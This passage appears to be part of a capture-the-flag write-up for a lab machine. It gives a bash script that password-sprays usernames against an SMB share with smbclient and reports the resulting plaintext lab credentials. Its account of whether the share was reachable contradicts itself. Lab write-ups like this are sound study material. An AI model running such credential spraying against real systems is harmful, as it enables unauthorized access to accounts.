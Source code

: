 Going forward I created a bash script that we can use with our updated list to see if any of user names we have can access the DEV SMB share we found earlier.

#!/bin/bash

	# Define variables
	password='PASSWORD'
	domain_or_ip="TARGET IP"
	share="DEV"   # replace with the SMB share you want to access

	# Loop through the file with usernames
	while IFS= read -r username; do
	    echo "Trying username: $username with password: $password"
	    
	    # Attempt to connect using smbclient
	    smbclient //$domain_or_ip/$share -U $username%$password -c exit

	    # Check the exit status to determine if the login was successful
	    if [ $? -eq 0 ]; then
		   echo "Login successful for user: $username"
	    else
		   echo "Login failed for user: $username"
	    fi
	done < "Name of the wordlist you want to use"


After updating the variables in the script with the target IP, password, and our wordlist we can see michael can access the \DEV share in smb. So that password that we found in the HR smb note must belong to michael because we now have the following valid credentials:

I wasn't able to access the DEV smb share with our new credentials. I'm going to try and run ldapdomaindump with our new credentials and see if we get anything interesting.

Username: michael.wrightson

Password: Cicada$M6Corpb*@Lp#nZp!8
